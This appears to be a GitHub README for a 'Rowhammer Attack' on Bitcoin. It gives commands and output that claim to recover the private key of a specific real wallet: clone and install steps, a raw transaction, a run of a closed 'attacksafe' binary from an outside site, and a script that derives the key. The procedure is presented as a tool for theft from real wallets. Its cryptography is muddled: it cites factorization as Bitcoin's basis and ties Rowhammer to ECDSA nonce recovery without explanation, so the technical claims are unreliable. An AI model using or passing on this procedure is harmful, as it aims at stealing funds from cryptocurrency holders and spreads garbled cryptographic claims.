 # Rowhammer Attack

---

The biggest cryptographic strength of the Bitcoin cryptocurrency is a computational method in discrete mathematics that takes the factorization problem of large integers and the hidden number problem (HNP) in the Bitcoin ECDSA signature transaction as a basis.
Rowhammer Attack on Bitcoin, allows us to efficiently find all zeros for normalized polynomials modulo a certain value, and we adapt this method to the ECDSA signature algorithm, more precisely to critically vulnerable transactions in the Bitcoin blockchain.
We will apply ECDSA signature differential failure analysis and obtain a private key from a transaction for different Bitcoin Wallets.



---

* Tutorial: https://youtu.be/lfYPcXPzLjE
* Tutorial: https://cryptodeep.ru/rowhammer-attack

---

# Commands:





    git clone https://github.com/demining/CryptoDeepTools.git


    cd CryptoDeepTools/15RowhammerAttack/

    ls

    wget https://bootstrap.pypa.io/pip/2.7/get-pip.py

    sudo python2 get-pip.py

    pip2 install -r requirements.txt


---


## With a critical vulnerability, we can get the private key to the Bitcoin Wallet:


https://btc1.trezor.io/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o

https://btc1.trezor.io/tx/3c79fae7e31a32e12d55f2e0c91d88e11d6f16faa35f1ec85bd7d768a1c18846


---



    RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


    python2 breakECDSA.py 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


---


R = 0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67

S = 0x0bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff4

Z = 0x9d86bea51385f6a56835d0148e7f23a353605bab339127e800112307e6727d2d


---

# To implement the attack and get the secret key, we will use the software: “ATTACKSAFE SOFTWARE” [ https://attacksafe.ru/software ]


---

    chmod +x attacksafe


---

    ./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt


---



## We launched this attack from -tool rowhammer_attack and the result is saved to the file SecretKey.txt


    cat SecretKey.txt


    Deployments ECDSA:

    SecretKey = 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d


    RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


---


## We see the inscription "Deployments ECDSA" which means a critical vulnerability in the Bitcoin blockchain transaction

SecretKey value in HEX format, this is our secret key "K" (NONCE):

K=0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d


---


    pip3 install ECPy


    python3 point2gen.py 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d



    R          =    0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67
    point2gen  =   (0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67 , 0xc6efa8de714dd94d7b659d8935aa9036ada6a2b541a03360901fc195fd0e2cf6)


---


# ALL CORRECT!


K=0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d

## Now knowing the secret key, we can get the private key to the Bitcoin Wallet: 16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG


The script: calculate.py will calculate the private key using the formula:
Privkey = ((((S * K) - Z) * modinv(R,N)) % N)


---


    python3 calculate.py


---


## PrivKey = aa35fda8f16d06ae02bdcf671e03035795a0b0ecbdae45098928f6587016a932



---


---

* Tutorial: https://youtu.be/lfYPcXPzLjE
* Tutorial: https://cryptodeep.ru/rowhammer-attack

---


|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2kh9WzCActXSGHxyypGLkqQZfxDpw8v |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |

